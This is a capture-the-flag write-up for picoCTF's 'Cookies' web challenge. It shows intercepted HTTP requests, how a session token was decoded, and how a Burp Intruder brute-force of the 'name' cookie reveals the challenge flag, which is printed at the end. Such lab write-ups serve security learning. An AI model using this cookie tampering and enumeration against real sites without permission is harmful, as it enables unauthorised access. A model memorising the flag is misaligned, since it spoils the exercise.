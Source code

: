 # Cookies

## Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

## Write Up
First we'll fire up burp so we can have a look at the HTTP request that gets sent when you enter in a cookie name this is what we can see:

```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=-1
Upgrade-Insecure-Requests: 1

name=mint
```

This is the resultant HTTP request when I entered in mint into the search bar. The request has a Cookie header which has a "name" attribute, and the POST body has a "name" field with our input inside. 

If we forward our this request through a **GET** request gets created:

```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=-1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShNXQ.I6h-imR03NfNpf3sg3t6btKuMEE
Upgrade-Insecure-Requests: 1
```

The Cookie header now has a session token which looks like a **JSON Web Token (JWT)**, If we copy it into a JWT decoder we can see that the token is malformed however, we can see some of its values:

```
{
  "_flashes": [
    {
      " t": [
        "danger",
        "That doesn't appear to be a valid cookie."
      ]
    }
  ]
}
```

It is telling us the Cookie value "name=-1" doesnt seem to be valid. So we will go back to the home page, enter a new cookie name in, intercept the request and alter the Cookie header attribute and see what happens. (NOTE: Additional GET request get created when we alter the "name" attribute, we will update the name attribute to our new number that we are trying with all these subsequent requests):

First request : **POST** to /search: name=1
```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=1
Upgrade-Insecure-Requests: 1

name=
```

Second request: **GET** to /: name=1
```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

Third request: **GET** to /check: name=1
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

We can see that the page responds with this:

![Image of chocolate
search](https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/chocolate.png)

So we know that cookie types are assigned to a number referenced in the name attribute. So we will use Burpsuite intruder to brute force name values starting 1. (NOTE: We dont sent the **POST** request to the intruder because we know that all the post requests to /search just get redirected, as we saw above with the subsequent requests we dealt with before, instead we send the request that gets generated after a POST is sent to /search)

Our positions will look like this, with attack type **Sniper**:
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=§-1§; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YSh3aA.J8b66mdt5q4dPoOSpNL9ARqqPfQ
Upgrade-Insecure-Requests: 1
```

And our payload will contain this configuration:

![Image of intruder configuration](https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/intruder-config.png

After the intruder attack is done, we can see a list of all the requests sent and their responses back, if we start looking through the responses we will eventually come across the response to name=18 which contains our cookie.

picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

